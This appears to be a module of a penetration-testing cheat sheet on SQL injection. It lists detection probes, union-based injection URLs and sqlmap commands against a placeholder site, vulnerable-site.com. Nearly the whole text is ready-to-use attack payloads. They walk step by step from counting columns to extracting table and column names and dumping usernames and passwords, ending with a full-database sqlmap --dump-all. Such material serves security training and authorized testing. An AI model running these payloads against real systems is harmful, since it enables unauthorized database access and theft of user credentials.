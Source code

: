 
## 🌐 Module 4: Web Application Penetration Testing

### SQL Injection (SQLi)
*   **Detection:**
    `http://vulnerable-site.com/products.php?id=1'`
    `http://vulnerable-site.com/products.php?id=1 AND 1=1-- -`
    `http://vulnerable-site.com/products.php?id=1 AND 1=2-- -`
*   **Exploitation:**
    ```bash
    # Find number of columns
    http://vulnerable-site.com/products.php?id=1 ORDER BY 1-- -
    http://vulnerable-site.com/products.php?id=1 ORDER BY 10-- - # Increase until error

    # Union-based injection (if 4 columns found)
    http://vulnerable-site.com/products.php?id=-1 UNION SELECT 1,2,3,4-- -

    # Extract database name
    http://vulnerable-site.com/products.php?id=-1 UNION SELECT 1,2,3,database()-- -

    # Extract table names
    http://vulnerable-site.com/products.php?id=-1 UNION SELECT 1,2,3,group_concat(table_name) FROM information_schema.tables WHERE table_schema=database()-- -

    # Extract column names from 'users' table
    http://vulnerable-site.com/products.php?id=-1 UNION SELECT 1,2,3,group_concat(column_name) FROM information_schema.columns WHERE table_name='users'-- -

    # Dump data
    http://vulnerable-site.com/products.php?id=-1 UNION SELECT 1,2,3,group_concat(username,0x3a,password) FROM users-- -
    ```
*   **`sqlmap` (Automation):**
    ```bash
    # Basic test
    sqlmap -u "http://vulnerable-site.com/products.php?id=1"

    # Dump the entire database
    sqlmap -u "http://vulnerable-site.com/products.php?id=1" --dump-all
    ```
